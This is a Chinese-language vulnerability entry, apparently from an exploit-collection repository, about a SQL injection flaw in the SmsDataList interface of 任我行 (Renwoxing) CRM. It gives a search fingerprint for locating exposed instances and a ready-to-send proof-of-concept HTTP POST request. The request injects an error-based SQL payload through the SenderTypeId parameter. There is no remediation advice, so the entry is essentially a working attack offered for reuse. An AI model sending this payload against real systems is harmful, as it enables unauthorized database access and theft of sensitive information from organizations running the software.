


# 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息

## 漏洞影响

<a-checkbox checked>任我行 CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"欢迎使用任我行CRM"</a-checkbox></br>

## 漏洞复现

登陆页面



验证POC

```php
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

